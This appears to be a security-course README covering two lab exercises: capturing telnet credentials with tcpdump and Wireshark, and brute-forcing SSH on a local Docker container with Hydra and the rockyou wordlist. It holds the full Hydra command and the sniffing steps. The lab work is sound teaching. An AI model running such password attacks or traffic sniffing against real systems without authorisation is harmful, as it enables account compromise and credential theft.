 ### Attack is the best defense

## ARP spoofing and sniffing unencrypted traffic

# Network Sniffing for Passwords - Security Project

## Introduction

Security is a crucial aspect of any system, and network security plays a significant role. Unencrypted traffic poses a potential risk as it can be intercepted and analyzed by malicious entities. This project focuses on sniffing unencrypted traffic to gather information, emphasizing the importance of securing communication channels.

In this specific scenario, the project involves sniffing telnet traffic to extract sensitive information. The target is an email service, Sendgrid, which offers both secure and unsecured communication methods. The provided script, `user_authenticating_into_server`, replicates the telnet authentication process to demonstrate the vulnerability.

## Project Steps

1. **Telnet Authentication:**
   Execute the provided script `user_authenticating_into_server` locally on your Linux machine, preferably Ubuntu.

2. **Sniffing with Tcpdump:**
   Use the `tcpdump` tool to capture network traffic during the telnet authentication process.

3. **Find the Password:**
   Analyze the captured network traffic to identify the password used in the telnet authentication.

## Execution Instructions

- Ensure you run the script on a Linux machine, such as an Ubuntu vagrant machine. The script may not work on Docker containers or Mac OS.

- Download the script [user_authenticating_into_server](link_to_script) from the repository.

- Execute the script:
  ```bash
  bash user_authenticating_into_server

## Analyze the captured data to find the password used in the telnet authentication with wireshark
![](image.png)

#### Let's decode the base64:

![](image-1.png)

## Dictionary attack

# Security Testing Setup README

This README provides instructions for setting up Docker and Hydra for security testing purposes. Please ensure that you use these tools responsibly and ethically, adhering to applicable laws and regulations.

### Step 1: Install Docker

```bash
sudo apt install docker.io
```
### Step 2: Install Hydra

```bash
sudo  apt install hydra
```
### Step 3: Run Docker Container
```bash
# Replace 'sylvainkalache/264-1' with the desired Docker image
docker run -p 2222:22 -d -ti sylvainkalache/264–1
```
### Step 4: Download rockyou.txt
```bash
# Navigate to the directory containing 'rockyou.txt'
gzip rockyou.txt
```
### Step 5: Run Another Docker Container
```bash
# Replace 'sylvainkalache/264-1' with the desired Docker image
sudo docker run -p 3333:22 -d -ti sylvainkalache/264-1
```
### Step 6: Use Hydra for Brute-Force Attack
```bash
# Replace 'rockyou.txt' with the appropriate wordlist
# Replace 'sylvain' with the target username
# Replace '127.0.0.1:3333' with the target SSH server address and port
# Adjust the '-t' option for the desired number of parallel threads
sudo hydra -l sylvain -P rockyou.txt ssh://127.0.0.1:3333 -t 4
```

![alt text](image-4.png)

## Note: Ensure ethical and legal use of security testing tools. Unauthorized access attempts are illegal and may have severe consequences.




